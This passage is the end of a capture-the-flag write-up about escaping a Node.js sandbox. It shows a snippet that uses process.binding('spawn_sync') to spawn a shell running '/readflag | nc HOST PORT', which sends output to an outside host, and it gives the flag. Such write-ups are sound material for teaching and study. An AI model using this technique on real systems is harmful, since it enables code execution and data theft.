 ### Taking code execution to the flag
Once we have code execution with global scope, we still have to get around the `process.mainModule` being nulled. The `process.binding` function allows us to load a native module, one of which is `spawn_sync`. This module just spawns a child and is used by `child_process` internally.

With any of the previous techniques, we can get the flag out-of-band like so:
```js
let args = {"args":["sh", "-c", "/readflag | nc HOST PORT"],"file":"sh","stdio":[{"type":"pipe","readable":true,"writable":true}]};
process.binding('spawn_sync').spawn(args);
```

## Flag
```
dice{th3y_retr4cted_the_cve_:(}
```

Self-plug:

The author mentioned this challenge is inspired by a challenge I wrote, [metacalc](https://github.com/Seraphin-/ctf/blob/master/irisctf2023/metacalc.md). That challenge is easier because an object without a null prototype is directly leaked into the VM, though the intended solution for that one involves using a getter and attacking the call chain.
